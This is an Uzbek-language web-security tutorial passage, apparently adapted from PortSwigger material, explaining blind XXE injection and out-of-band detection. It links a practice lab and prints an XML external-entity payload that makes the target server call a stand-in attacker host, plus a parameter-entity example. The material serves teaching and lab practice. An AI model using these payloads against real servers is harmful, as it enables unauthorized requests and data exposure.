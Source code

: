 # Blind XXE ineksiyasi

Biz ushbu bo'limda Blind XXE ineksiya nima ekanligi haqida gaplashamiz va uni topish usullarini ham o'rganamiz.

## <mark style="color:yellow;">Blind XXE ineksiya nima ?</mark> <a href="#blind-xxe-inektsiya-nima" id="blind-xxe-inektsiya-nima"></a>

Saytning qayeridadir XXE ineksiyasi bo'lsayu lekin response hech qanday External entity qiymatini qaytarmasa Blind XXE ineksiya sodir bo'ladi. Bu degani to'g'ridan-to'g'ri server-side fayl almashish imkoni yo'q va shunaqa ekan Blind XXE ineksiyani oddiy XXE ineksiyaga qaraganda exploit qilish ancha qiyin.

Buni amalga oshirishning ikkita asosiy yo'li bor:

* Siz OAST tarmog'ining o'zaro ta'sirini ishga tushirishingiz mumkin, ba'zida bu o'zaro tasirli ma'lumotlar paytida maxfiy ma'lumotlarni topadi
* Siz XML error lari orqali maxfiy ma'lumotlarni olishingiz mumkin.

## <mark style="color:yellow;">Blind XXE ni out-of-band (OAST) orqali aniqlash usullari</mark> <a href="#blind-xxe-ni-out-of-band-oast-orqali-aniqlash-usullari" id="blind-xxe-ni-out-of-band-oast-orqali-aniqlash-usullari"></a>

Siz [<mark style="color:yellow;">SSRFni XXE yordamida aniqlash xujumi</mark>](xxe-ineksiya.md#ssrf-hujumlarini-amalga-oshirish-uchun-xxedan-foydalanish) bilan bir xil texnikadan foydalangan holda Blind XXE ni aniqlashingiz mumkin, lekin siz boshqarayotgan tizimga OAST tarmog'ining o'zaro ta'sirini ishga tushirishingiz mumkin. Misol uchun siz tashqi entiti ni e'lon qilishingiz mumkin:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Keyin XML ichidagi ma'lumotlar qiymatida berilgan entitidan foydalanasiz.

Ushbu XXE xujumi serverni kitilgan URL manziliga HTTP so'rov yuborishiga olib keladi. Natijada haker DNS lookup va HTTP so'rovini kuzatishi va shu bilan XXE xujumi muvaffaqiyatli bo'lganligini aniqlashi mumkin.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Out-of-band o'zaro tasiri yordamida blind XXE ≫](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
{% endhint %}

Ba'zida XXE hujumlar, oddiy entitilardan foydalangan holda sayt tomonidan kiritilgan tekshiruvlar yoki foydalanilayotgan XML parsing tufayli bloklanadi. Bunday holatlarda siz XML parametr entitilardan foydalanishingiz mumkin. XML parametr entitylari XML entitylarining maxsus turi bo'lib, unga faqat DTD doirasidagi boshqa joyga murojaat qilish mumkin. Hozir siz faqat ikkita narsani bilishingiz kerak. Birinchidan, XML parametr entity deklaratsiyasi, entity nomidan oldingi % belgisini o'z ichiga oladi:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
